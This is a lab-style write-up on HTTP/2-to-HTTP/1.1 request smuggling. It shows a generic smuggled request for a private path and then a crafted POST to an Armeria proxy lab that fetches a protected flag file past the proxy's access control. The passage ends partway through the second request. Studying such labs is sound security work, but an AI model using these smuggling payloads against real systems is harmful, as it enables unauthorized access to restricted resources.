     :method         POST
    :path           /api/postMessage
    :authority      service.company.com
    content-type    application/x-www-form-urlencoded
    content-length  6
    
    test=XGET /private/path HTTP/1.1
    Host: 127.0.0.1
    
That will be converted to H1 at the backend as 2 requests:

    POST /api/postMessage HTTP/2
    Host: service.company.com
    Content-Length: 6
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8

    test=X
    GET /private/path HTTP/1.1
    Host: 127.0.0.1:80

So the second request will let us accesse the private content, at least in 

#### LAB
The Lab proposed here (quite confusing for me) make use of Armeria, a microservice framework that can be configured as a [proxy](https://armeria.dev/docs/server-basics/#proxy-protocol). Armeria (1.13.2) is a microservices framework that can act as proxy. Here it accepts HTTP/2 connections. The proxy forwards requests to the backend server. We have an endpoint that serves static request (/static) and we know that there is also /documents endpoint, but the proxy is preventing us to access. In this case the proxy returns not found (404). Our goal, of course, it's to get the flag present in the documents endpoint. To do that we have to find a way to bypass the proxy ACL.

The first test to perform is to verify if the conten-length is passed to the backend. In the lab both /static and /documents live on the same webserver: webstatic-1 (have a look at the docker log), so we can try to send a request to the an existing resource, and in the body we insert the smuggled request for the protected resource (as usual in Burp Repeater remember to disable the automatic update of the content-legth):

    POST /static/style.css HTTP/2
    Host: localhost:8443
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: none
    Sec-Fetch-User: ?1
    Te: trailers
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    
    GET /documents/flag.txt HTTP/1.1
    Host: localhost:8443
    User-Agent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
